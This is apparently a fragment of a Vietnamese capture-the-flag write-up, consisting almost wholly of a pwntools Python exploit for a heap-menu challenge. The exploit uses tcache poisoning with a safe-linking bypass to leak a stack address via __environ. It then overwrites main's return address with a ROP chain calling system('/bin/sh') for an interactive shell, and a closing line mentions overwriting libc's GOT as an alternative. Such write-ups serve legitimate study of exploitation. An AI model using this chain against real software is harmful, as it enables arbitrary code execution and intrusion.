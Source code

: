 ```python
create(0,0x508)
create(2,0x508)

create(4,0x88)
delete(4)
create(5,0x88) # chunklist[4] == chunklist[5]
create(6,0x88)

# 5 -> 6
delete(6)

delete(4)

pos = heap_base + (0x5c2ff55adde0 - 0x5c2ff55ad000)
target = libc_base + libc.sym['__environ']
edit(5,p64((pos >> 12) ^ target) +b'\n') # tcache poisoning
create(4,0x88)
create(6,0x88) # environ
show(6)
ru("here is some data for you buddy: ")
stack = u64(r(6).ljust(8,b'\x00'))
log.info(f"stack: {hex(stack)}")

create(7,0x78)
delete(7)
create(8,0x78)
create(9,0x78)

delete(9)
delete(7)
pos = heap_base + (0x62bb4e2a1f00 - 0x62bb4e2a1000)
target = stack - (0x7fffb0f9d598 - 0x7fffb0f9d450 - 0x20) # main_return_address
edit(8,p64((pos >> 12) ^ target) + b'\n')
create(9,0x78)
create(7,0x78) # tcache poisoning

pop_rdi_ret = libc_base + 0x000000000002a3e5
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
ret = libc_base + 0x00000000000baaf9
payload = b'a' * 0x8 + p64(ret) + p64(pop_rdi_ret) + p64(binsh) + p64(system)
payload = payload.ljust(0x77,b'a') + b'\n'
edit(7,payload)

sla(">","5")
p.interactive()
```


ngoài ra còn những cách khác như overwrite libc_got

script 
